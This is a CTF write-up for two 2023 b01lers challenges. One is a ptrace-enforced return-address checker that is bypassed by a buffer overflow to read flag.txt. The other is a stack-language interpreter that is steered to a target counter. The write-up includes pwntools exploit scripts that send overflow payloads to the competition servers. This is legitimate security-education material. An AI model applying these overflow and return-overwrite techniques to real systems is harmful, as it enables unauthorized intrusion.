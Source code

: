 ```yaml
---
title: (CTF) 2023 b01lers CTF writeup
categories: [CTF]
tags : [writeup]
date : 2023-03-20 14:59:39 +0900
author:
    name: 
    link: 
toc: true
comments: false
mermaid: false
math: false
---
```


Date: March 20, 2023
rank: 19
team: ST4RT

# cfifuuufuuuuu ( 398 pt, 13 solve )

there are two files loader.pyc, a binary

```python
while 1:
    # res = ptrace(PTRACE_GETREGS, pid, 0, ctypes.addressof(regs))
    pid, status = os.waitpid(-1, 0)
    ssy = pnx(status)
    print(ssy)
    res = ptrace(PTRACE_GETREGS, pid, 0, ctypes.addressof(regs))
    print(hex(regs.rip))
    if ssy[1] == 'WIFEXITED':
        break
    if ssy[2] == 'SIGSEGV':
        break
    if ssy[2] == 'SIGTRAP':

> ['0x57f', 'WIFSTOPPED', "'SIGTRAP'", '0']

```

if I execute python code from uncompyle6, it doesn’t work due to the quote.
Enclose comparing string with double quotes

```
int 3
adc [rax+XX]
```

In binary, there are some opcodes that cause SEGFAULT next to int 3.
int 3 → `SIGTRAP`

```python
if ssy[2] == 'SIGTRAP':
    res = ptrace(PTRACE_GETREGS, pid, 0, ctypes.addressof(regs))
    one_byte = mem_read(pid, regs.rip, 1)[0]
    if one_byte == 72:
        regs.rax = regs.rdi
        regs.rdi = regs.rsi
        ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
    else:
        if one_byte == 17 or one_byte == 33 or one_byte == 49:
            offd = {17:0,  33:40,  49:72}
            vv = mem_read(pid, regs.rsp + offd[one_byte], 8)
            vv = struct.unpack('<Q', vv)[0]
            saved_addr.add(vv)
            regs.rip += 1
            ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
        else:
            if one_byte == 18 or one_byte == 34 or one_byte == 50:
                offd = {18:0,  34:40,  50:72}
                vv = mem_read(pid, regs.rsp + offd[one_byte], 8)
                vv = struct.unpack('<Q', vv)[0]
                if vv not in saved_addr:
                    print('\\n\\n!!!Stack Violation Detected!!!\\n\\n')
                    regs.rip = 0
                    ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
                    break
                saved_addr.remove(vv)
                regs.rip += 1
                ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
    res = ptrace(PTRACE_CONT, pid, 0, 0)

```

In the loader, it handles `SIGTRAP`.
it branches according to the 1byte next to `int 3` opcode

```
0x48 -> rax = rdi, rdi = rsi
0x11,0x21,0x31 -> saved_addr.add([rsp+XX]), rip+=1
0x12,0x22,0x32 -> saved_addr.remove([rsp+XX]), if not exist, exit. rip+=1,
```

control flow check

## binary routine

```nasm
read(0,0x601004,0x10)
open("/dev/urandom") -> /dev/urandom string -> 0x601084
[0x601000]+=1
read(fd,0x601000+[0x601000]<<4+4],0x10) -> 0x601014
write(1,random values,0x10)
write xored data with random values
: 0x400486
read(0,[rsp+0x20],0x10)
read(0,[rsp+0x10],...) -> input until 0xA
write xored data [rsp+0x20], [rsp+0x10]
```

in function `0x400486`, BOF occurs. there is int 3 + 0x32 at the end of the function.
loader check if `[rsp+0x48]` in saved_addr.

There are two addresses at this time. original return `0x400546` and `0x4005e2`.

In `0x4005e2`, it executes that routing again if eax ≠ 0.
the return value of write always 1.

repeating that routine, you can raise the address until `0x601084` ( /dev/urandom ) by increasing the input index (`0x601000`)

modifying this filename to flag.txt, it reads flag as random values and prints.

```python
from pwn import *

# r = process(["/usr/bin/python3","/root/loader.py"])
r = remote("ctf.b01lers.com", 5215)
for i in range(9):
    print(i)
    r.sendafter('?:\n',b'flag.txt'.ljust(16,b'\x00'))
    r.sendafter(':\n',b'\x00'*16)
    r.sendline(b'\x00'*0x38+p64(0x4005e2))
r.interactive()
```

by repeating 8 times, the string address 0x601084 (/dev/urandom) can be overwritten,
in the 9th routine, it prints flag as random values 

# baby noah ( 334 pt, 25 solve )

## binary routine

1. input map ( max : 8 * 24 )
2. execute opcode

```python
opcode = map[row * m_col + col]
col + flag1 (default 0)
row += flag2 (default 0)
miles += op+1

# / dup / stack[idx] = stack[idx-1], idx ++
! / test / stack[idx-1] = stack[idx-1] == 0
* / mul / stack[idx-2] *= stack[idx-1], idx-=1
+ / add / stack[idx-2] += stack[idx-1], idx-=1
- / sub / stack[idx-2] -= stack[idx-1], idx-=1, 
/ / div / stack[idx-2] /= stack[idx-1], idx-=1
% / mod / stack[idx-2] %= stack[idx-1], idx-=1
& / and / ...
, / swap / stack[idx-2] = stack[idx-1]; stack[idx-1] = stack[idx-2]
~ / pop / idx-=1
. / putc / putc(stack[idx-1])
: / printf / printf("%d",stack[idx-1])
< / left / flag1 = -1
> / right / flag1 = 1
@ / return 1
^ / up / flag2 = -1
v / down / flag2 = 1
_ / left_right / flag1 = stack[idx-1]==0 ? 1 : -1;
| / up_down / flag2 = stack[idx-1] == 0 ? 1 : -1;
g / load / stack[idx-2] = map[m_col * stack[idx-1] + stack[idx-2]]; idx-=1
p / store / map[m_col * stack[idx-2] + stack[idx-3]] = stack[idx-1]; idx-=3
default / stack[idx] = 0; idx++
```

in every execute, add opcode+1 to `miles.`
using that opcodes, make `miles` 0x31337 to print flag.
input size is 8 * 24, so i need to construct a loop.

first, push counter to stack

> stack : [ 0x00, X ], idx = 2
> 

1. `right` to set flag1 = 1
2. `default` (counter → map[0][1])
3. `default` (dummy to idx++)
4. `default` (dummy, in load row = 0)
5. `test` to set stack[idx-1] = 1
6. `load` X

> payload : >XX!Xg
> 

second, using two rows, construct a loop

1. `right` to start loop
2. `default` to idx++
3. `test` to set stack[2] = 1
4. `sub` stack[1]
5. `default & pop` ( dummy op to increase miles )
6. `down`
7. `left_right` to check counter (stack[1]) == 0
if counter==0, goto right to exit
else, goto left to execute remain loop count

> \>X!-X~v
^<<<<<_@
> 

Adjust the value X  to make the miles to 0x31337.

```python
from pwn import *

#r=process(["./babynoah","20","flag.txt"])
r=remote("babynoah.bctf23-codelab.kctf.cloud", 1337)

payload = b">\xe4\xe4!\xffg>\xfe!-\x00~v\n"
payload +=b"\xff\xff\xff\xff\xff\xff^<<<<<<_@"
r.sendline(payload)
pause()
r.sendline()
r.interactive()
```

by default, X to 0xff and adjusted the rest appropriately